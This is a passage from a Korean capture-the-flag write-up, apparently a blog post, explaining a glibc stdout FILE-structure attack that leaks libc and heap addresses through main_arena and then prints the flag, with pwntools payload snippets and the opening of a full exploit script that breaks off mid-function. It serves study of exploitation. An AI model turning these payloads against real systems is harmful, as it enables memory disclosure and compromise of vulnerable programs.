 참고한 자료에서는 `_IO_write_base`의 첫 바이트를 `\x00`으로 overwrite하는데, 그러면 다음과 같이 `_IO_do_write`가 호출될 것이다.
``` c
// _IO_do_write (FILE *fp, const char *data, size_t to_do)
_IO_do_write (stdout, 0x7ffff7fc0700, 0x23)
```
이 출력의 결과물로 `_IO_FILE` 구조체에 담겨있던 libc 주소가 출력된다.
``` python
    # leak libc
    io_is_appending = 0x1000
    payload = p64(0xfbad2887 | io_is_appending)
    payload += b"\x00" * 0x19
    r = edit(s, 25, payload)
```
위 payload를 통해 libc leak이 가능한 것으로 보아 `_IO_read_XXX`같은 영역은 출력을 할 때 중요하지 않는 듯하다.

이 `stdout` 구조체를 이용해서 AAR이 가능하고 바이너리에서 `flag`를 읽은 후 heap 메모리에 저장하므로 heap 주소만 있으면 `flag`를 획득할 수 있다.

Unsorted bin attack에서 `next_chunk`에 `main_arena` 주소가 담기게 한 것과 반대로 `main_arena`에는 heap 주소가 담겨있다.

`main_arena`는 libc의 고정된 영역에 저장된 변수이므로 offset을 계산해서 값을 덮어주면 된다.
``` python
    # leak heap - print main_arena
    payload = p64(0xfbad2887 | io_is_appending)
    payload += b"\x00" * 0x18
    payload += p64(main_arena)          # _IO_write_base
    payload += p64(main_arena + 0x20)   # _IO_write_ptr
    payload += p64(main_arena + 0x20)   # _IO_write_end
    r = edit(s, 25, payload)
```
주의해야 할 점은 `_IO_write_end`가 `_IO_write_ptr`과 같아야 출력이 된다는 점이다.

알아뒀다가 나중에 `stdout`을 이용해 메모리 leak을 해야할 때 활용해야겠다.
``` python
    # print flag
    payload = p64(0xfbad2887 | io_is_appending)
    payload += b"\x00" * 0x18
    payload += p64(flag)                # _IO_write_base
    payload += p64(flag + 0x30)         # _IO_write_ptr
    payload += p64(flag + 0x30)         # _IO_write_end
    r = edit(s, 25, payload)
```
Heap 주소를 획득한 뒤 같은 방식으로 `flag`를 획득할 수 있다.

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
from argparse import ArgumentParser

BINARY = "chall"
LIBRARY = "libc-2.31.so"
CONTAINER = "b212a05a74cb"
code_base = 0x555555554000
bp = {
    'read_int_edit' : code_base + 0x1545,
    'read_int_refund' : code_base + 0x1618
}

index_list = [0] * 32
def print_index(op, num = 0):
    if op == "pop":
        index_list[num] = 0
        index = num
    elif op == "push":
        for _ in range(len(index_list)):
```